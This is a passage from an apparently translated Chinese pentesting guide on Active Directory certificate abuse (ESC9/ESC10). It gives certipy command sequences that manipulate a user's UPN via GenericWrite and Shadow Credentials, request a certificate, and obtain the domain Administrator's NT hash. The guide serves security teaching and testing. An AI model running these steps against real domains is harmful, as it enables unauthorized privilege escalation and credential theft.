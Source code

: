 `Jane` 的 `userPrincipalName` 随后恢复为她的原始值 `Jane@corp.local`：
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local
```
尝试使用颁发的证书进行身份验证现在会产生 `Administrator@corp.local` 的 NT 哈希。由于证书缺乏域的指定，命令必须包含 `-domain <domain>`：
```bash
certipy auth -pfx adminitrator.pfx -domain corp.local
```
## 弱证书映射 - ESC10

### 解释

域控制器上的两个注册表键值被ESC10引用：

- `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel`下的`CertificateMappingMethods`的默认值为`0x18`（`0x8 | 0x10`），之前设置为`0x1F`。
- `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc`下的`StrongCertificateBindingEnforcement`的默认设置为`1`，之前为`0`。

**案例 1**

当`StrongCertificateBindingEnforcement`配置为`0`时。

**案例 2**

如果`CertificateMappingMethods`包含`UPN`位（`0x4`）。

### 滥用案例 1

当`StrongCertificateBindingEnforcement`配置为`0`时，具有`GenericWrite`权限的账户A可以被利用来妥协任何账户B。

例如，拥有对`Jane@corp.local`的`GenericWrite`权限，攻击者旨在妥协`Administrator@corp.local`。该过程与ESC9相似，允许使用任何证书模板。

最初，使用Shadow Credentials检索`Jane`的哈希，利用`GenericWrite`。
```bash
certipy shadow autho -username John@corp.local -p Passw0rd! -a Jane
```
随后，`Jane`的`userPrincipalName`被更改为`Administrator`，故意省略`@corp.local`部分以避免约束冲突。
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator
```
接下来，作为 `Jane` 请求一个启用客户端身份验证的证书，使用默认的 `User` 模板。
```bash
certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes <hash>
```
`Jane`的`userPrincipalName`随后恢复为其原始值`Jane@corp.local`。
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local
```
使用获得的证书进行身份验证将产生 `Administrator@corp.local` 的 NT 哈希，因此由于证书中缺少域详细信息，命令中需要指定域。
```bash
certipy auth -pfx administrator.pfx -domain corp.local
```
### Abuse Case 2
